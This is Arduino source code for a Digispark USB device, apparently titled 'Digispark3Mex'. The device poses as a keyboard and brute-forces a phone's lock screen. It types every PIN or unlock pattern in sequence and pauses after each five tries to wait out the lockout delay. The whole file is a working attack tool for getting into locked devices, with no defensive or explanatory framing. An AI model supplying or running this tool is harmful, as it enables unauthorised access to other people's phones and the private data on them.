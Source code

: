 # Digispark3Mex By: HellPineapple

#include "DigiKeyboard.h"

// Key mapping for digits 0-9
int num[] = {39, 30, 31, 32, 33, 34, 35, 36, 37, 38};

// Key mapping for pattern nodes
int patternNodes[] = {44, 45, 46, 47, 48, 49, 50, 51, 52}; // Example

// Configuration
const int PIN_LENGTH = 4; // Change to 6 for a 6-digit PIN
bool usePattern = false; // Change to true to use pattern unlock

// Variables for PIN
int digits[6] = {0, 0, 0, 0, 0, 0};

// Variables for pattern
const int PATTERN_LENGTH = 4; // Length of the unlock pattern
int pattern[9] = {0, 0, 0, 0, 0, 0, 0, 0, 0}; // Stores the pattern sequence

const int ENTER_KEY = 40;
const int DELAY_TIME = 31000;

int attemptCount = 0;

void setup() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  delay(3000);
}

void sendKeys(int* keyMap, int* values, int length) {
  for (int i = 0; i < length; i++) {
    DigiKeyboard.sendKeyStroke(keyMap[values[i]]);
  }
  DigiKeyboard.sendKeyStroke(ENTER_KEY); // Enter
  delay(1000);
}

void incrementValues(int* values, int length, int max) {
  for (int i = length - 1; i >= 0; i--) {
    values[i]++;
    if (values[i] < max) break;
    values[i] = 0;
  }
}

void loop() {
  if (attemptCount == 5) {
    digitalWrite(1, HIGH); // LED on to indicate delay
    DigiKeyboard.sendKeyStroke(ENTER_KEY); // Enter to dismiss any popup
    delay(DELAY_TIME);
    attemptCount = 0;
    digitalWrite(1, LOW); // LED off
  }

  if (usePattern) {
    sendKeys(patternNodes, pattern, PATTERN_LENGTH);
    incrementValues(pattern, PATTERN_LENGTH, 9);
  } else {
    sendKeys(num, digits, PIN_LENGTH);
    incrementValues(digits, PIN_LENGTH, 10);
  }

  attemptCount++;
}
